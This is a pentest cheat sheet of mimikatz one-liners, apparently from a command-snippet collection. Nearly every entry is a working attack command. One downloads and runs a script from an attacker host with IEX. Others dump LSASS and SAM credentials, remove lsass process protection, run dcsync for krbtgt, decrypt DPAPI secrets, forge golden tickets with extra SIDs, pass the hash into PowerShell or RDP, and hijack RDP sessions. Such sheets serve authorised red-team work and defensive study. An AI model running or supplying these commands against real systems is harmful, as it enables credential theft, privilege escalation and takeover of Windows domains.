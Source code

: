 # mimikatz

% mimikatz, passwords
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## powershell - load mimikatz
https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/Invoke-Mimikatz.ps1') | IEX
Invoke mimikatz
```

## mimikatz onliner
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords /all" "lsadump::sam" "exit"
```

## mimikatz disable PPL and dump passwords
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords /all" "exit"
```

## mimikatz - vault - Get passwords of scheduled tasks
```
mimikatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"
```

## mimikatz - dcsync - user (krbtgt/Administrator)
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

## mimikatz - extract credentials from dump
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords /all" "exit"
```

## mimikatz - extract credentials from shadow copy (1)
```
mimikatz.exe "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM"
```

## mimikatz - extract credentials from shadow copy (2)
Extract old passwords
```
mimikatz.exe "lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY"
```

## extract - on hand shadow volume copy
```
powershell.exe "[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM', '.\Desktop\SYSTEM.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY', '.\Desktop\SECURITY.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM', '.\Desktop\SAM.bkp')"
```

% mimikatz, tickets

## mimikatz - tickets - list
```
sekurksa::tickets
```

## mimikatz - tickets - extract 
```
sekurlsa::tickets /export
```

% mimikatz, dpapi, credman


## mimikatz - credman - List Credentials Manager
```
sekurlsa::Credman
```


## mimikatz - dpapi - check the file to get guidMasterKey
Seatbelt come in handy for enumerating credential blob files' location
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<credfile>
```

## mimikatz - dpapi - find master key
```
$ mimikatz !sekurlsa::dpapi
```

## mimikatz - dpapi - use master key
sid : origin domain sid : Get-DomainSID -Domain domainname
sid : origin domain sid : Get-DomainSID -Domain domainname
```
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<credfile> /masterkey:<masterkey>
```

## mimikatz - dpapi - Extract masterkey Administrator
```
mimikatz sekurlsa::dpapi
```


## mimikatz - dpapi - Extract masterkey with password
```
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\<guidMasterKey>" /sid:<SID> /password:<password> /protected
```

## mimikatz - dpapi - Extract masterkey AD
```
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\<guidMasterKey>" /rpc
```





% mimikatz, ad


## mimikatz - forest extra SID
sid : origin domain sid : Get-DomainSID -Domain domainname
sids :  ExtraSid value (Enterprise Admins SID) : parent SID	
```powershell
kerberos::golden /user:<user> /domain:<domain> /sid:<child_sid> /krbtgt:<krbtgt_ntlm> /sids:<parent_sid>-519 /ptt
```

% mimikatz, pth

## pth run powershell remotelly
#plateform/windows  #target/local  #cat/ATTACK/PTH 
Followed by : Enter-PSSession -Computer {<}computer_name}
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell
```

## pth to RDP
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/PTH
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:"mstsc.exe /restrictedadmin"
```

% mimikatz, rdp

## Extract RDP passwords
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 
```
ts::logonpasswords
```

## List RDP sessions 
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON
```
ts::sessions
```

## Hijack RDP session 
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/HIJACK
```
ts::remote /id:<id>
```